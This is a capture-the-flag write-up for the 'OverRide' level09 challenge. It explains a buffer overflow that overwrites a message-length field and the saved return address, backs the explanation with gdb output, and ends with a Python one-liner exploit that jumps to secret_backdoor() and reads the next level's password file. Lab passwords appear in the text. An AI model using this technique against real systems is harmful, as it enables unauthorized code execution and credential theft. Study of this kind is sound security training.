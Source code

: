 # Overwrite RIP and jump to `secret_backdoor()`

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level09
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level09@192.168.56.101's password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$
```

The program contains `secret_backdoor()` function which reads in at most 127 characters from `stdin` and stores them into the buffer pointed to by `command`. Then it executes  a command specified in `command` by calling `/bin/sh -c command`,

At first glance, return address must be overwritten in order to redirect flow of the program into `secret_backdoor()` function.

The function `set_msg()` calls `fgets` which reads 1024 bytes into the buffer of 128 bytes.

Then it copy at most len characters `buffer+180`, from source `str` into destination `buffer`.
```gdb
   0x5555555549a2 <set_msg+112>:	mov    rax,QWORD PTR [rbp-0x408]
=> 0x5555555549a9 <set_msg+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x5555555549af <set_msg+125>:	movsxd rdx,ea
```
The value of message length, `buffer+180` can be overwirtten using `username`.
With a large message there is possibility to overwrite saved RIP of `handle_msg()`

To find offset, calculate difference between `savedRIP` and the `buffer`:
```gdb
[...]
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
�>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[...]
Breakpoint 7, 0x0000555555554924 in handle_msg ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe580:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe590
 Arglist at 0x7fffffffe570, args:
 Locals at 0x7fffffffe570, Previous frame's sp is 0x7fffffffe580
 Saved registers:
  rbp at 0x7fffffffe570, rip at 0x7fffffffe578
gdb-peda$
gdb-peda$ x/64wx 0x7fffffffe4b0
0x7fffffffe4b0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4c0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4d0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4e0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe500:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe510:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe520:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe530:	0x42424242	0x42424242	0x42424242	0x41414141
0x7fffffffe540:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe550:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe560:	0x0a414141	0x0000008c	0xffffe580	0x00007fff
0x7fffffffe570:	0xffffe580	0x00007fff	0x55554abd	0x00005555
0x7fffffffe580:	0x00000000	0x00000000	0xf7a3d7ed	0x00007fff
0x7fffffffe590:	0x00000000	0x00000000	0xffffe668	0x00007fff
0x7fffffffe5a0:	0x55554000	0x00000001	0x55554aa8	0x00005555
gdb-peda$ p/d 0x7fffffffe578-0x7fffffffe4b0
$33 = 200
gdb-peda$
```
```gdb
gdb-peda$ print secret_backdoor
$35 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
By overwritting message length byte and using offset followed by the address of `secret_backdoor()` function, the flow of program can be modified.


# Exploit
```sh
level09@OverRide:~$ (python -c "import struct; print('\xff'*50 + '\n' + '\x55'*200 + struct.pack('Q', 0x55555555488c))"; echo 'cat /home/users/$(whoami)/.pass') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, >: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
